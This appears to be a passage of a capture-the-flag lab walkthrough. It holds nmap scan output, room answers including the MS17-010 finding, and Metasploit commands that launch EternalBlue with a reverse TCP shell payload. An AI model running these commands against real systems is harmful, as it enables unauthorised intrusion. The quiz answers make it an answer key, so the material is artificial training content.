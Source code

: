 ``` 
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 03:44
Completed NSE at 03:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 03:44
Completed NSE at 03:44, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.22 seconds
           Raw packets sent: 7 (284B) | Rcvd: 4 (160B)


```

Ans: ***No answer needed***

**Q2.How many ports are open with a port number under 1000?**

Ans: ***3***

**Q3.What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)**

Ans: ***ms17-010***


# Gain Access

**Questions:**

**Q1.Start Metasploit**

`msfconsole`

Ans: ***No answer needed***

**Q2.Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)**

`search ms17-010`

`use exploit/windows/smb/ms17_010_eternalblue`

`set rhosts <target ip>`

`set lhost <your machine ip>`

`set payload windows/x64/shell/reverse_tcp`

`run`

![show-options-eternalblue](https://github.com/user-attachments/assets/1a526898-d601-4b3b-8ea5-59b0ce1d4837)

Ans: ***exploit/windows/smb/ms17_010_eternalblue***
